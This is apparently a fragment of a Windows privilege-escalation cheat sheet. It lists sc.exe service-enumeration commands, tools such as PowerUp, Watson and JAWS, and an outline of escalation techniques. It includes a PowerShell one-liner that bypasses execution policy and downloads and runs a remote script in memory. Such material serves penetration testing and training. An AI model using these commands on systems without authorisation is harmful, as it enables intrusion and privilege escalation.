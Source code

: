 

## sc.exe (when wmic does not work)

```
sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt

FOR /F %i in (Servicenames.txt) DO echo %i
type Servicenames.txt

FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt

FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt

cacls "C:\path\to\file.exe"

```
## Tools

    PowerSploit’s PowerUp

      powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks

    Watson - Watson is a (.NET 2.0 compliant) C# implementation of Sherlock
    BeRoot - Privilege Escalation Project - Windows / Linux / Mac

    Windows-Exploit-Suggester

      ./windows-exploit-suggester.py --update
      ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt 

    windows-privesc-check - Standalone Executable to Check for Simple Privilege Escalation Vectors on Windows Systems
    WindowsExploits - Windows exploits, mostly precompiled. Not being updated.
    WindowsEnum - A Powershell Privilege Escalation Enumeration Script.
    Seatbelt - A C# project that performs a number of security oriented host-survey “safety checks” relevant from both offensive and defensive security perspectives.
    Powerless - Windows privilege escalation (enumeration) script designed with OSCP labs (legacy Windows) in mind
    JAWS - Just Another Windows (Enum) Script

      powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt

## Summary

    Tools
    Windows Version and Configuration
    User Enumeration
    Network Enumeration
    EoP - Looting for passwords
    EoP - Processes Enumeration and Tasks
    EoP - Incorrect permissions in services
    EoP - Windows Subsystem for Linux (WSL)
    EoP - Unquoted Service Paths
    EoP - Kernel Exploitation
    EoP - AlwaysInstallElevated
    EoP - Insecure GUI apps
    EoP - Runas
    EoP - From local administrator to NT SYSTEM
    EoP - Living Off The Land Binaries and Scripts
    EoP - Impersonation Privileges
        Meterpreter getsystem and alternatives
        RottenPotato (Token Impersonation)
        Juicy Potato (abusing the golden privileges)
    EoP - Common Vulnerabilities and Exposures